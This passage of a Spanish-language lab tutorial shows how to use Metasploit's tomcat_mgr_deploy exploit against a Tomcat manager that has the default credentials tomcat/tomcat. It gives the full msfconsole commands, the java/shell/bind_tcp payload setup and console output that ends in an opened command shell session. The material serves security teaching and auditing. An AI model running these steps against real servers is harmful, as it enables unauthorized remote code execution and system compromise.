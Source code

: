 3.  Configuración y uso del exploit
    `exploit/multi/http/tomcat_mgr_deploy`

        msf  auxiliary(tomcat_mgr_login) > use exploit/multi/http/tomcat_mgr_deploy 
        msf  exploit(tomcat_mgr_deploy) > info 

    Debemos especificar la máquina objetivo (RHOST), el puerto (RPORT),
    el path a la aplicación de gestion de Tomcat (PATH) y el nombre de
    usuario (USERNAME) y la contraseña (PASSWORD).

        msf  exploit(tomcat_mgr_deploy) > set RHOST 198.51.100.222
        msf  exploit(tomcat_mgr_deploy) > set RPORT 8080
        msf  exploit(tomcat_mgr_deploy) > set USERNAME tomcat
        msf  exploit(tomcat_mgr_deploy) > set PASSWORD tomcat

    **Funcionamiento:** El exploit creará un fichero WAR con una
    aplicación web Java ”maliciosa” cuya única misión será la de poner
    en ejecución dentro de la máquina víctima el PAYLOAD que
    especifiquemos.

    -   Usando la aplicación de administración se desplegará ese WAR en
        el servidor Tomcat.

    -   El exploit accederá a la URL correspondiente para invocar dicho
        servlet y poner en ejecución su PAYLOAD

    -   Finalmente, el exploit deshará el despliegue realizado.

    En este ejemplo se usará el PAYLOAD `java/shell/bind_tcp` (conexión
    directa)

    -   Este PAYLOAD lanza un intérprete de comandos en la víctima
        (`/bin/sh` en este caso) y redirige su E/S a un puerto TCP de
        dicha víctima.

    -   El atacante/auditor abre una sesión conectándose con ese puerto
        de la víctima, obteniéndose una *shell* en el equipo
        comprometido accesible desde el atacante.

    **Nota:** con `set PAYLOAD <tab>` se muestra la lista de PAYLOADs
    admitidos por el exploit actual.

        msf  exploit(tomcat_mgr_deploy) > set PAYLOAD java/shell/bind_tcp
        msf  exploit(tomcat_mgr_deploy) > show options 

    Este PAYLOAD tiene sus propias opciones, exige que indiquemos la
    máquina víctima (RHOST, *remote host*) y el puerto de escucha en
    dicha víctima (LPORT, *listening port*)

        msf  exploit(tomcat_mgr_deploy) > set LPORT 11111
        msf  exploit(tomcat_mgr_deploy) > show options 

    Al lanzar el exploit se abrirá una sesión en la máquina víctima.

        msf  exploit(tomcat_mgr_deploy) > exploit

        [*] Started bind handler
        [*] Attempting to automatically select a target...
        [*] Automatically selected target "Linux x86"
        [*] Uploading 6213 bytes as nZAPfHCskfkmDVB.war ...
        [*] Executing /nZAPfHCskfkmDVB/97PNxj.jsp...
        [*] Undeploying nZAPfHCskfkmDVB ...
        [*] Sending stage (2439 bytes) to 198.51.100.222
        [*] Command shell session 1 opened (198.51.100.111:54658 -> 198.51.100.222:11111) at 2012-01-31 02:19:45 +0100
